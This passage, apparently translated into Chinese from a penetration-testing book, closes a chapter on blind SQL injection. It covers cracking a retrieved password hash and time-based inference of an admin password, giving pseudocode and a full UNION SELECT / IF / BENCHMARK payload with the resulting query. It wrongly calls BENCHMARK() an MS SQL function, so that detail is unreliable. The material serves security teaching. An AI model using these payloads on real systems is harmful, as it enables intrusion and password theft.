很好！现在我们要做的就是“破解”哈希值。我们可以启动**John the Ripper**或**hashcat**来执行字典攻击或暴力破解，或者检查该值是否已经被计算过。



图 6.7：在 Hashtoolkit.com 上快速搜索已检索的密码哈希值，值为“summer17”，并在结果中显示出来

### 注意

Hash Toolkit 让你可以搜索 MD5 和 SHA-* 哈希值，并快速返回它们的明文对应值。最常见的密码已经被某人破解或计算过，并且像 Hash Toolkit 这样的站点提供了结果的快速索引。与互联网上的任何事物一样，要注意你向不受信任的媒介提交的数据。Hash Toolkit 可通过 [`hashtoolkit.com/`](https://hashtoolkit.com/) 访问。

# 数据推断

让我们考虑一个更简单的场景，即应用程序没有异步处理负载。这是一个更常见的场景。通常，在盲注攻击的情况下，我们可以使用注入查询中的条件语句从数据库中推断数据。如果前面的示例漏洞不是异步的，我们可以在响应中引入显著的延迟。结合传统的 if-then-else 语句，我们就可以对试图获取的数据做出假设。

我们为这种类型的攻击所使用的高级伪代码如下所示：

```
if **password** starts with 'a'
  **delay(5 seconds)**
else
  return false

if **password** starts with 'aa'
  delay(5 seconds)
else
  **return true**

if **password** starts with 'ab'
  **delay(5 seconds)**
else
  return false

[...]
```

我们可以通过观察服务器的响应时间，反复检查特定用户的 `password` 字段内容。在前面的伪代码中，经过前三次迭代后，我们就能推断出 `password` 值以 `ab` 开头。

为了生成可观察到的延迟，在 MS SQL 中，我们可以使用 `BENCHMARK()` 函数请求服务器反复执行某个任意操作。如果我们使用一个 CPU 密集型的函数，例如 `MD5()`，则会在查询返回时引入一个显著且可测量的延迟。

以下 MS SQL 函数可用于引入服务器响应中的延迟：

```
**BENCHMARK**(5000000,**MD5**(CHAR(99)))
```

基准操作将计算小写字母“c”的 MD5 哈希值，该字符由 `CHAR(99)` 表示，计算五百万次。如果服务器性能非常强大或非常慢，我们可能需要调整迭代次数。

如果迭代次数过低，服务器将迅速返回结果，这会使得判断注入是否成功变得更加困难。我们也不希望引入过多的延迟，因为枚举数据库可能需要几天时间。

最终的攻击载荷将结合`IF`语句和基准操作。我们还将使用`UNION`关键字，将现有的`SELECT`与我们自己的查询合并。

```
' UNION SELECT IF(SUBSTRING(**password**,1,1) = CHAR(97),BENCHMARK(5000000,MD5(CHAR(99))),null) FROM users WHERE role = 'admin';--
```

要执行的后端 SQL 查询将再次如下所示：

```
SELECT * FROM users WHERE user = 'Dade' **UNION SELECT IF(SUBSTRING(password,1,1) = CHAR(97),BENCHMARK(5000000,MD5(CHAR(99))),null) FROM users WHERE role = 'admin';--**'
```

如果响应中存在显著的延迟，我们可以推测管理员用户密码以小写字母“a”开头。为了找到完整的密码值，我们需要对数百个查询进行循环，并修改`SUBSTRING()`参数，随着密码值的逐步揭示，逐步“走”过字符串。

# 总结

在本章中，我们使用了一个相当常见的 SQL 注入示例，展示了在应用程序没有向攻击者提供任何反馈的情况下，漏洞发现的潜在问题。针对这些障碍是有应对方法的，一些技巧甚至能够异步地提取敏感数据。我们还探讨了如何在盲注场景中通过推测手动获取数据。

这里的关键要点是能够以攻击者可测量的方式改变应用程序的行为。即使是一些更加安全的应用程序开发环境，它们会积极过滤出去的流量，通常也会允许至少让 DNS UDP 数据包通过。过滤出口 DNS 查询是一项困难的任务，我并不羡慕任何负责执行此任务的安全团队。作为攻击者，我们再次能够充分利用这些局限性，正如我在之前的示例中所展示的，通过利用一个难以发现的漏洞，完全破坏应用程序。

在接下来的章节中，我们将探讨如何自动化一些活动，包括利用 Burp 的 Collaborator 功能，使得带外发现变得更容易。
